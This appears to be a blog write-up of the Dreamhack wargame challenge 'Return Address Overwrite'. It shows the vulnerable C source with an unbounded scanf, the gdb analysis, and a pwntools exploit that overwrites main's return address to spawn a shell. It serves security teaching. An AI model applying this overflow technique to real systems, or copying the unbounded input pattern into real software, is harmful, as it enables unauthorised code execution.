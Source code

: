 ```yaml
---
layout: post
title: "[dreamhack] Return Address Overwrite"
comments: true
category: wargame
---
```


## Checksec
First, let's check mitigation.
```
Arch:   amd64-64-little
RELRO:  Partial RELRO
Stack:  No canary found
NX:     NX enabled
PIE:    No PIE(0x400000)
```
PIE turns off, so code section's address is fixed value.

***

## C code
```cpp
#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```
get_shell() function executes '/bin/sh'.<br />
If we can exectes get_shell() func, then we can get shell.<br />

In main, there is char buf, and it receive input by scanf.<br />
scanf function doesn't check size of input, so we can make bof.<br />

***

## Debug binary
![Description](/assets/img/Return-Address-Overwrite/get_shell.png)
In gdb, we can disassemble get_shell() func.<br />
This binary's PIE turns off, so get_shell() func's address has fixed value of 0x4006aa.v
![Description](/assets/img/Return-Address-Overwrite/main.png)
In main, scanf has two arguments, "%s" and buf.<br />
And two arguments are set to rdi and rsi before call scanf.<br />
[rbp-0x30] is set to rsi(code: 0x40070b and 0x40070f), and we can know buf's address by this.


***

## Ex code

We can send input to buf more than buf's size, and overwrite return address of main.<br />
If we overwrite return address with get_shell() func address, then after main func end, '/bin/sh' will execute.<br />
buf's distance to $rbp is 0x30, and there is sfp(8bytes) between $rbp and return address.<br />
So we have to send input of 0x38 dummy bytes + get_shell addr.<br />

```python
from pwn import *

context.log_level = 'debug'

r = process('./rao')
#r = remote('host3.dreamhack.games', 13579)

get_shell_addr = 0x4006aa

payload = b'A' * 0x30           #Overwite from buf to $rbp
payload += b'B' * 0x8           #Overwrite SFP
payload += p64(get_shell_addr)  #Overwrite main's RA

r.sendlineafter(b'Input: ', payload)

r.interactive()
```